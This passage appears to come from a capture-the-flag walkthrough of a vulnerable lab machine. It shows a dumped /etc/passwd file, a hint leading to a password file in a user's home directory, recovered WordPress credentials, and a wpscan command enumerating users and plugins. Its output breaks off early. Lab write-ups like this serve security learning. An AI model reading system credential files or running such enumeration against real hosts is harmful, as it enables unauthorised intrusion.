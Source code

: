 _apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin

>> in output there is password.txt file present is /home/saket directory
>> so fetch it and file contains password of wordpress.

# wordpress creds:
     username : victor
     password : follow_the_ippsec



# wpscan found:
    ->>
    wpscan --url http://192.168.0.110/wordpress/ --enumerate u p  --plugins-detection aggressive
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.14
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

    [+] URL: http://192.168.0.110/wordpress/ [192.168.0.110]
    [+] Started: Fri Jan 28 21:19:16 2022

    Interesting Finding(s):
